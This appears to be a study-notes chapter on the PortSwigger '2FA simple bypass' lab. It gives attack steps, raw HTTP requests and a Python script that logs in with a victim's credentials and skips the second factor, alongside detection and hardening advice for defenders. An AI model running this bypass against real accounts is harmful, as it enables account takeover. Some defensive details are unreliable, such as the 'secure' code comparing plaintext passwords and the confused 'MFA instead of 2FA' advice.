

## Authentication Vulnerabilities: 2FA Bypass

### Background Theory

Authentication vulnerabilities are among the most critical security issues in web applications. Two-Factor Authentication (2FA) is designed to add an additional layer of security by requiring users to provide two different authentication factors: something they know (password) and something they have (a token or biometric data).

However, if the application does not properly enforce the 2FA mechanism, attackers can bypass this crucial security measure. This can lead to unauthorized access to sensitive information and systems.

### Understanding the Attack Scenario

In the given scenario, the attacker logs out, navigates to the "My Account" section, sets up an interception tool like Burp Suite, and logs in with the victim's credentials. The attacker then intercepts the request to the 2FA verification endpoint and drops it. If the application does not enforce the 2FA endpoint, the attacker can log in using only the username and password.

#### Step-by-Step Mechanics

1. **Log Out**: The attacker ensures they are logged out of the application.
2. **Navigate to My Account**: The attacker navigates to the "My Account" section of the application.
3. **Set Intercept to On**: The attacker uses Burp Suite to set intercept to on, which means all outgoing requests will be intercepted.
4. **Log In with Victim's Credentials**: The attacker logs in with the victim's username and password.
5. **Intercept Request**: The attacker intercepts the request to the 2FA verification endpoint.
6. **Drop Request**: The attacker drops the request to the 2FA verification endpoint.
7. **Check Login**: The attacker checks if they can still log into the user's account without providing the second factor.

### Real-World Example: Recent Breach

A notable example of a 2FA bypass vulnerability is the breach of a popular social media platform in 2021. The platform had implemented 2FA but did not enforce it properly. Attackers were able to bypass the 2FA mechanism and gain unauthorized access to user accounts. This led to a significant data breach, compromising sensitive user information.

### Detailed HTTP Requests and Responses

To understand the attack in more detail, let's look at the HTTP requests and responses involved:

#### Logging In with Username and Password

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

username=admin&password=secret
```

Response:

```http
HTTP/1.1 302 Found
Location: /verify-2fa
Content-Length: 0
```

#### Intercepting and Dropping the 2FA Verification Request

Request:

```http
GET /verify-2fa HTTP/1.1
Host: example.com
Cookie: sessionid=abc123
```

The attacker drops this request.

#### Checking Login Without 2FA

Request:

```http
GET /dashboard HTTP/1.1
Host: example.com
Cookie: sessionid=abc123
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Dashboard</title>
</head>
<body>
    <h1>Welcome, admin!</h1>
</body>
</html>
```

### Scripting the Attack in Python

To automate this attack, we can write a Python script using the `requests` library. Here’s a detailed breakdown of the script:

#### Import Libraries

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
```

#### Set Proxy Settings

```python
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}
```

#### Define Main Method

```python
def main():
    # Log in with username and password
    login_url = 'https://example.com/login'
    login_data = {
        'username': 'admin',
        'password': 'secret'
    }
    session = requests.Session()
    response = session.post(login_url, data=login_data, proxies=proxies, verify=False)

    # Check if redirected to 2FA verification
    if response.status_code == 302 and 'Location' in response.headers:
        verify_2fa_url = response.headers['Location']
        print(f"Redirected to {verify_2fa_url}")

        # Drop the 2FA verification request
        print("Dropping 2FA verification request...")

        # Check if able to access dashboard without 2FA
        dashboard_url = 'https://example.com/dashboard'
        response = session.get(dashboard_url, proxies=proxies, verify=False)
        if response.status_code == 200:
            print("Successfully bypassed 2FA!")
            print(response.text)
        else:
            print("Failed to bypass 2FA.")
    else:
        print("No redirection to 2FA verification.")

if __name__ == '__main__':
    main()
```

### Mermaid Diagrams

#### Attack Flow Diagram



### Common Pitfalls and Detection

#### Common Pitfalls

1. **Improper Error Handling**: If the application does not handle errors correctly, it might reveal whether the 2FA was bypassed.
2. **Logging**: Insufficient logging can make it difficult to detect such attacks.
3. **Configuration**: Incorrect configuration of the 2FA mechanism can lead to bypasses.

#### Detection

1. **Logging**: Ensure that all authentication attempts, including 2FA, are logged.
2. **Monitoring**: Use tools like SIEM (Security Information and Event Management) to monitor for unusual authentication patterns.
3. **Alerts**: Set up alerts for failed 2FA attempts and successful logins without 2FA.

### How to Prevent / Defend

#### Secure Coding Fixes

**Vulnerable Code**

```python
# Vulnerable code snippet
def authenticate(username, password):
    user = get_user_by_username(username)
    if user and user.password == password:
        return True
    return False
```

**Secure Code**

```python
# Secure code snippet
def authenticate(username, password):
    user = get_user_by_username(username)
    if user and user.password == password:
        if user.two_factor_enabled:
            if verify_two_factor(user):
                return True
            else:
                return False
        else:
            return True
    return False
```

#### Configuration Hardening

1. **Enforce 2FA**: Ensure that the application enforces 2FA for all users.
2. **Audit Logs**: Enable detailed audit logs for all authentication attempts.
3. **Rate Limiting**: Implement rate limiting to prevent brute-force attacks.

#### Mitigations

1. **Multi-Factor Authentication (MFA)**: Use MFA instead of 2FA to add an extra layer of security.
2. **Security Policies**: Implement strict security policies and regularly review them.
3. **User Education**: Educate users about the importance of 2FA and how to use it securely.

### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various web security topics, including authentication vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.

These labs provide a safe environment to practice and understand the concepts discussed in this chapter.

### Conclusion

Understanding and preventing 2FA bypass vulnerabilities is crucial for maintaining the security of web applications. By implementing proper security measures, auditing regularly, and educating users, organizations can significantly reduce the risk of such attacks.

---
<!-- nav -->
[[Web Security (PortSwigger)/13-Authentication Vulnerabilities/03-Lab 2 2FA simple bypass/01-Introduction to Authentication Vulnerabilities|Introduction to Authentication Vulnerabilities]] | [[Web Security (PortSwigger)/13-Authentication Vulnerabilities/03-Lab 2 2FA simple bypass/00-Overview|Overview]] | [[Web Security (PortSwigger)/13-Authentication Vulnerabilities/03-Lab 2 2FA simple bypass/03-Common Pitfalls and Detection|Common Pitfalls and Detection]]
